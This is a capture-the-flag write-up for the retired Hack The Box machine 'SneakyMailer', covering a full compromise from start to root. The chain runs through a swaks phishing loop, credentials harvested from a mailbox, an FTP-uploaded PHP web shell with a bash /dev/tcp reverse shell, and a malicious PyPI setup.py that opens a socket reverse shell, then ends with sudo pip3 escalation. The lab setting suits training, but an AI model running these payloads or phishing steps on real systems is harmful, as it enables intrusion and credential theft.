



# SneakyMailer

This is the write-up for the box SneakyMailer that got retired at the 28th November 2020.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.197    sneakymailer.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/sneakymailer.nmap 10.10.10.197
```

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp   open  http     nginx 1.14.2
|_http-title: Did not follow redirect to http://sneakycorp.htb
|_http-server-header: nginx/1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: THREAD=REFERENCES STARTTLS UTF8=ACCEPTA0001 ACL OK THREAD=ORDEREDSUBJECT QUOTA ACL2=UNION UIDPLUS completed IDLE NAMESPACE CAPABILITY IMAP4rev1 ENABLE SORT CHILDREN
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
|_imap-capabilities: THREAD=REFERENCES completed IMAP4rev1 ACL OK THREAD=ORDEREDSUBJECT AUTH=PLAIN QUOTA ACL2=UNION UIDPLUS IDLE NAMESPACE CAPABILITY UTF8=ACCEPTA0001 ENABLE SORT CHILDREN
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
8080/tcp open  http     nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page wants to forward to the domain _sneakycorp.htb_ so that has to be added to _/etc/hosts_ file to access the website.
On the web page we are automatically logged in as an employee of _SneakyCorp_ and see a dashboard for projects:



The menu _Team_ shows 57 employee names, their position and email addresses.

Copying the table to a text file and formatting it, so it only consists of email addresses:
```
awk -F"\t" '{print $4}' employees.txt > emails.list
```

As there is a mail server running on the box, a **Phishing attack** can be tried against the users.

## Sending Mails with SMTP (Port 25)

I will use the tool **Swaks (Swiss Army Knife for SMTP)** to send mails to all addresses with a bash script _(phish.sh)_:
```bash
for email in $(cat emails.list);
do
        swaks \
          --from support@sneakymailer.htb \
          --to $email \
          --header 'Subject: Please change your Password!' \
          --body 'http://10.10.14.6/register.php' \
          --server sneakycorp.htb
done
```
```
bash phish.sh
```

After the script runs, the user _Paul Byrd_ clicks the link and the web service on my IP and port 80 gets a POST response with some data:
```
firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Decoding the data:
```
firstName=Paul
&lastName=Byrd
&email=paulbyrd@sneakymailer.htb
&password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
&rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```

This password may work for the mailbox of this account.

## Connecting to Mailbox with IMAP (Port 993)

The mailbox of _paulbyrd_ can be configured in any mail client like for example **Evolution**.

After configuring the mail client, there are two mails in the _Sent Items_ folder of this user and of them has the subject _"Password Reset"_:
```
Hello administrator, I want to change this password for the developer account

Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

Please notify me when you do it
```

These credentials may work on the FTP service.

## Checking FTP (Port 21)

Login into FTP:
```
ftp 10.10.10.197

Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:root): developer
331 Please specify the password.
Password:
230 Login successful.
```

There is a folder _dev_ with seemingly the source code of the web page that should be downloaded to analyze it further:
```
wget --user developer --password 'm^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C' -r ftp://10.10.10.197
```

Unfortunately there is no interesting code in any of the files.
It is possible to upload files on the FTP service in the _dev_ folder:
```
ftp> cd dev
250 Directory successfully changed.

ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```

This file cannot be found on the web page, but as the folder is called _dev_ there may be another subdomain for developing purposes.
By adding the domain _dev.sneakycorp.htb_ to our _/etc/hosts_ file, it can be verified that this subdomain exists and files from the FTP server are put in there:



Creating a PHP shell _(shell.php)_:
```
<?php system($_REQUEST['cmd']); ?>
```

Uploading the PHP file:
```
ftp> put shell.php
```

Testing command execution:
```
GET /shell.php?cmd=whoami HTTP/1.1
Host: dev.sneakycorp.htb
```

It works and executes the `whoami` command and shows that the current user is _www-data_, so lets execute a reverse shell command:
```
POST /shell.php HTTP/1.1
Host: dev.sneakycorp.htb
(...)

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

After URL-encoding the data and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

There is a home folder for the user _low_ and by checking the running processes of this user it may be possible to escalate privileges:
```
ps -ef | grep low

low       1079     1  0 08:00 ?        00:00:08 /home/low/venv/bin/python /opt/scripts/low/install-modules.py
```

In the web directory _/var/www_ are three folders for different websites:
- dev.sneakycorp.htb
- pypi.sneakycorp.htb
- sneakycorp.htb

The _pypi.sneakycorp.htb_ is new to us and in there are two directories and a _.htpasswd_ file with credentials:
```
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Trying to crack the hash with **Hashcat**:
```
hashcat -m 1600 pypi.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> soufianeelhaoui

After adding the domain _pypi.sneakycorp.htb_ to our _/etc/hosts_ file, the website can be accessed on port 8080:



It shows the default installation page of [pypiserver](https://github.com/pypiserver/pypiserver), which serves packages for Python.
By creating a malicious PyPI package and uploading it there, we could compromise this service.

### Exploiting PyPI Server (Port 8080)

The [tutorial from the Python documentation](https://packaging.python.org/tutorials/packaging-projects/) explains how to package Python projects and the structure of the files.

Creating the necessary files for a PyPI package:
```
mkdir mal_package
cd mal_package/
touch __init__.py
touch setup.py
```

The contents of _setup.py_ are from the documentation, but modified with a reverse shell command:
```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.6",9002))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
#   (...)
    python_requires=">=3.6",
)
```

Creating _~/.pypirc_ (in the local home directory) to point Python to the PyPI server on the box:
```
[distutils]
index-servers = remote

[remote]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

Uploading and executing _setup.py_ from the box:
```
python3 setup.py sdist upload -r remote
```

After it gets executed the listener on my IP and port 9002 gets a connection from our local client.
Another listener on the same port has to be started and as soon as the other one is closed, the _setup.py_ gets executed from the box and the listener will start a reverse shell as the user _low_.

### Privilege Escalation to root

With `sudo -l` the root permissions of the user _low_ can be checked:
```
User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/
```

The binary `pip` has an entry in [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo) to elevate privileges to root:
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
```

Specifying **pip3** instead of `pip`:
```
sudo pip3 install $TF
```

It will execute _/bin/sh_ with `pip3` and start a shell as root!
